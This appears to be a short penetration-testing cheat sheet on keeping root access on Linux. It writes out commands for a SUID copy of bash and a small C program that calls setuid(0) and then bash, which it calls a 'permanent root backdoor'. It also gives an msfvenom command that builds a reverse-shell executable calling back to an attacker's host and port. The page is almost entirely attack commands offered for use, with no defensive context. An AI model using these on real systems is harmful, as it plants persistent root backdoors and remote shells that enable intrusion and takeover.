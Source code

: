# Spawning root shell

## Rootbash

In this method we create a copy of bash binary with root privileges and set SUID bit on, resulting in bash executable which when executed always run with a context of root user.

```text
cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash
```

After creating a copy, we can run it in unprivileged terminal.

```text
/tmp/rootbash -p
```

## Executable

We create a simple C program which sets UID to 0 and runs `/bin/bash` . When compiled with root privileges, we can run it afterwards for permanent root backdoor.

```text
int main(){
    setuid(0);
    system("/bin/bash");
}
```

Compile it with root privileges.

```text
gcc -o <out_file> <source_code>
```

## Msfvenom executable

Create msfvenom reverse shell, then execute as a root with handler prepared on your attack machine.

```text
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<lhost> LPORT=<lport> -f elf > shell
```

## Native reverse shells

This method needs more research

```text
https://github.com/mthbernardes/rsg
```

